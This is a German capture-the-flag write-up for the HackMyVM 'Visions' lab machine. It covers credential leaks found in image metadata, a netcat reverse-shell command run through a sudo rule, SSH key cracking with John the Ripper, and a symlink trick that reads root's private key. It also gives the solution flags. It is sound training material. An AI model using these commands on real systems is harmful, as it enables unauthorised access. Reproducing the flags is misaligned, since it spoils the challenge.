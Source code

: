 # Visions - HackMyVM (Easy)
 
![visions.png](visions.png)

## Übersicht

*   **VM:** Visions
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=visions)
*   **Schwierigkeit:** Easy
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 19. April 2021
*   **Original-Writeup:** https://alientec1908.github.io/visions_HackMyVM_Easy/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel der "Visions"-Challenge war die Erlangung von User- und Root-Rechten. Der Weg begann mit der Entdeckung des Benutzernamens `alicia` in einem HTML-Kommentar auf dem Webserver. Das zugehörige Passwort `ihaveadream` wurde durch Analyse der Metadaten (tEXtComment) einer Bilddatei (`white.png`) mittels `strings` gefunden. Dies ermöglichte den SSH-Login als `alicia`. Die Privilegieneskalation erfolgte in mehreren Schritten: Von `alicia` zu `emma` durch Ausnutzung einer `sudo`-Regel, die erlaubte, `/usr/bin/nc -e /bin/bash [IP] [PORT]` als `emma` auszuführen. Von `emma` zu `sophia` durch Steganographie (Auslesen von Credentials `sophia:seemstobeimpossible` aus einem Bild mittels `StegOnline`). Von `sophia` zu `isabella` durch eine weitere `sudo`-Regel (`sudo cat /home/isabella/.invisible`), die den verschlüsselten privaten SSH-Schlüssel von `isabella` preisgab. Dieser wurde mit `ssh2john` und `john` geknackt (Passphrase: `invisible`), was einen SSH-Login als `isabella` ermöglichte. Schließlich wurde von `isabella` zu `root` eskaliert, indem `isabella` einen Symlink von `/home/isabella/.invisible` auf `/root/.ssh/id_rsa` erstellte und `sophia` dann erneut ihren `sudo cat`-Befehl ausführte, wodurch der private SSH-Schlüssel von `root` ausgelesen und für den Root-Login verwendet wurde.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   Web Browser (impliziert für Quellcode-Analyse und StegOnline)
*   `strings`
*   `ssh`
*   `sudo`
*   `ls`
*   `nc` (netcat)
*   `StegOnline` (Online-Tool)
*   `cat`
*   `vi` (oder anderer Texteditor)
*   `ssh2john`
*   `john` (John the Ripper)
*   `chmod`
*   `rm`
*   `ln`
*   Standard Linux-Befehle (`id`)
*   *Hinweis: Ein Nmap-Scan wurde im Bericht nicht explizit gezeigt, ist aber typischerweise Teil der Reconnaissance.*

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Visions" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Initial Credential Discovery:**
    *   IP-Findung mit `arp-scan` (`192.168.2.132`).
    *   Untersuchung einer Webseite (Port 80, Details nicht im Log) enthielt einen HTML-Kommentar mit dem Hinweis auf Benutzer `alicia`.
    *   `strings white.png` (Bild vermutlich von der Webseite) offenbarte in den Metadaten (tEXtComment) das Passwort `ihaveadream`.

2.  **Initial Access (SSH als `alicia`):**
    *   Erfolgreicher SSH-Login als `alicia` mit dem Passwort `ihaveadream` (`ssh alicia@vision.hmv`).

3.  **Privilege Escalation (von `alicia` zu `emma` via `sudo nc`):**
    *   `sudo -l` als `alicia` zeigte: `(emma) NOPASSWD: /usr/bin/nc`.
    *   Ausnutzung durch Starten einer Reverse Shell: `sudo -u emma nc -e /bin/bash [Angreifer-IP] 4444`.
    *   Erlangung einer Shell als `emma`.

4.  **Privilege Escalation (von `emma` zu `sophia` via Steganographie):**
    *   Eine (im Log nicht spezifizierte) Bilddatei wurde mit einem Online-Tool (`https://stegonline.georgeom.net/image`) analysiert.
    *   Die Analyse ergab die Credentials `sophia:seemstobeimpossible`.
    *   Login als `sophia` (vermutlich via `su sophia` oder SSH).
    *   User-Flag `hmvicanseeforever` in `/home/sophia/user.txt` gelesen.

5.  **Privilege Escalation (von `sophia` zu `isabella` via `sudo cat` und SSH-Schlüssel-Cracking):**
    *   `sudo -l` als `sophia` zeigte: `(ALL : ALL) NPASSWD: /usr/bin/cat /home/isabella/.invisible`.
    *   `sudo cat /home/isabella/.invisible` gab einen verschlüsselten privaten SSH-Schlüssel (vermutlich für `isabella`) aus.
    *   Der Schlüssel wurde lokal gespeichert (z.B. `id`).
    *   `ssh2john id > hash` konvertierte den Schlüssel in ein für John the Ripper lesbares Format.
    *   `john --wordlist=/usr/share/wordlists/rockyou.txt hash` knackte die Passphrase des Schlüssels: `invisible`.
    *   Erfolgreicher SSH-Login als `isabella` mit dem privaten Schlüssel `id` und der Passphrase `invisible`.

6.  **Privilege Escalation (von `isabella` zu `root` via Symlink und `sudo cat` von `sophia`):**
    *   Als `isabella` wurde ein Symlink erstellt: `rm -f /home/isabella/.invisible; ln -sf /root/.ssh/id_rsa /home/isabella/.invisible`.
    *   Zurück in der `sophia`-Session wurde erneut `sudo cat /home/isabella/.invisible` ausgeführt.
    *   Dies las nun, aufgrund des Symlinks, den Inhalt des privaten SSH-Schlüssels von `root`.
    *   Der Root-SSH-Schlüssel wurde lokal gespeichert (z.B. `idroot`) und die Berechtigungen auf `600` gesetzt.
    *   Erfolgreicher SSH-Login als `root` mit dem privaten Schlüssel `idroot` (`ssh -i idroot root@vision.hmv`).
    *   Root-Flag `hmvitspossible` in `/root/root.txt` gelesen.

## Wichtige Schwachstellen und Konzepte

*   **Informationslecks in HTML-Kommentaren und Bild-Metadaten:** Enthüllten Benutzernamen und Passwörter.
*   **Steganographie (Online-Tool):** Credentials wurden in einem Bild versteckt.
*   **Unsichere `sudo`-Konfigurationen:**
    *   Erlaubnis, `nc -e` als anderer Benutzer auszuführen, ermöglichte eine Reverse Shell.
    *   Erlaubnis, `cat` auf eine spezifische Datei als `root` (impliziert durch `ALL:ALL`) auszuführen, ermöglichte das Auslesen von Schlüsseln.
*   **SSH-Schlüssel-Cracking:** Passphrasen von verschlüsselten privaten SSH-Schlüsseln wurden geknackt.
*   **Symlink-Attacke:** Ausnutzung einer `sudo cat`-Berechtigung durch Erstellen eines Symlinks auf eine höher privilegierte Datei.
*   **Ketten von Privilegieneskalationen:** Mehrere Benutzerwechsel waren notwendig, um Root-Rechte zu erlangen.

## Flags

*   **User Flag (`/home/sophia/user.txt`):** `hmvicanseeforever`
*   **Root Flag (`/root/root.txt`):** `hmvitspossible`

## Tags

`HackMyVM`, `Visions`, `Easy`, `Steganography`, `Strings`, `SSH`, `sudo Exploitation`, `nc`, `cat`, `SSH Key Cracking`, `ssh2john`, `John the Ripper`, `Symlink Attack`, `Privilege Escalation`, `Linux`
